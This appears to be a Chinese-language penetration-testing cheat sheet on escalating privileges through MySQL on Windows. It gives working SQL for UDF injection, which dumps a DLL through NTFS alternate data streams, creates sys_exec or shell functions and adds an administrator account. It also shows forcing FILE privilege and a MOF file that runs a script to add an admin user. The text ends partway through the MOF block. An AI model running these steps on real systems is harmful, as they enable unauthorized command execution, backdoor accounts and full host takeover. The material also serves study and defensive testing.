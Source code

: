     - POC | Payload | exp
        - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)

    - 手工
        ```sql
        select @@basedir;  # 查看 mysql 安装目录
        select 'It is dll' into dumpfile 'C:\。。lib::';  # 利用 NTFS ADS 创建 lib 目录
        select 'It is dll' into dumpfile 'C:\。。lib\plugin::';  # 利用NTFS ADS 创建 plugin 目录
        select 0xUDFcode into dumpfile 'C:\phpstudy\MySQL\lib\plugin\mstlab.dll';  # 导出 udfcode，注意修改 udfcode
        create function cmdshell returns string soname 'mstlab.dll';   #用 udf 创建 cmd 函数，shell,sys_exec,sys_eval
        select shell('cmd','net user');     # 执行 cmd 命令
        show variables like '%plugin%';     # 查看 plugin 路径
        ```

        小技巧：

        1. HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MySQL 注册表中 ImagePath 的值为 mysql 安装目录
        2. my.ini 中 datadir 的值是数据存放目录
        3. UPDATE user set File_priv ='Y';  flush privileges; 强制加 file权限

        ```sql
        USE mysql;
        CREATE TABLE npn(line blob);
        INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
        SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
        CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
        SELECT sys_exec("net user npn npn12345678 /add");
        SELECT sys_exec("net localgroup Administrators npn /add");
        ```

- **MOF 提权**

    MOF提权的条件要求十分严苛：
    1. windows 03 及以下版本
    2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
    3. secure-file-priv 参数不为 null

    ```ini
    #pragma namespace("\\.\root\subscription")

    instance of __EventFilter as
    {
        EventNamespace = "Root\Cimv2";
        Name  = "filtP2";
        Query = "Select * From __InstanceModificationEvent "
                "Where TargetInstance Isa \"Win32_LocalTime\" "
                "And TargetInstance.Second = 5";
        QueryLanguage = "WQL";
    };

    instance of ActiveScriptEventConsumer as
    {
        Name = "consPCSV2";
        ScriptingEngine = "JScript";
        ScriptText =
        "var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
    };
